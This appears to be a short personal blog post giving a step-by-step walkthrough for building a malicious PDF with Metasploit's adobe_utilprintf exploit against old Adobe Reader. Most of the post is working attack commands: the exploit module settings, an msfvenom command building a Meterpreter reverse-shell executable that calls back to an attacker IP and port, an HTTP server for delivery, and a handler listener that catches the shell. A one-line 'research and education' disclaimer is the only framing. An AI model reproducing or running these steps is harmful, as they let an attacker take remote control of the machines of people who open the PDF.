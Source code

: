 ```yaml
---
title: "Create malicious PDF"
date: "2020-10-02"
layout: single
tags:
- PDF
categories:
- Blog-post
---
```


Malicious PDF is one of the way to hack users because this document format and Adobe Reader (PDF reader) are used by almost everyone.

In this article, I will show you how to generate our malicious PDF using Metasploit. We gonna use an old exploit for a vulnerable Adobe Reader version.

**This article is for research and education purpose only**. Do with your own risk!

**The exploit is targeting a specific version of Adobe Reader** which is **vulnerable Adobe Reader version** (less than 8.1.2). So, you need to install this version first on your Windows XP target machine as mention in Metasploit module.

## 1. Generate malicious pdf
We gonna use `adobe_utilprintf` vulnerability

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/1.PNG)

    use exploit/windows/fileformat/adobe_utilprintf
    set filename malicious.pdf
    set payload windows/exec
    set cmd malware.exe
    exploit

## 2. Create reverse shell executable
Copy the malicious pdf to a directory that we gonna setup our HTTP server.
And create a reverse shell executable using msvenom.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/2.PNG)

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.83.128 LPORT=1111 -f exe > malware.exe

Note:
Change LHOST with your IP

## 3. Download executable and PDF  in the target machine

You can use this python line to step up local HTTP server.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/3.PNG)

    python -m SimpleHTTPServer

Rename `evil.exe` to `malware.exe` (if you name the executable as evil.exe during generating reverse shell executable using msfvenom)

Download both of the files, and copy `malware.exe` to `System32` folder

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/4.PNG)

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/5.PNG)

## 4. Listen to reverse shell

Listen to reverse shell and wait for the execution of the file.

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/6.PNG)

    use exploit/multi/handler
    set payload windows/meterpreter/reverse_tcp
    set lhost 192.168.83.128
    set lport 1111
    run

## 5. We're in 🎉 
After we double click the PDF, the exploit will run. So, our classic exploit is successful!

![enter image description here](https://raw.githubusercontent.com/fareedfauzi/fareedfauzi.github.io/master/assets/images/malpdf/7.PNG)

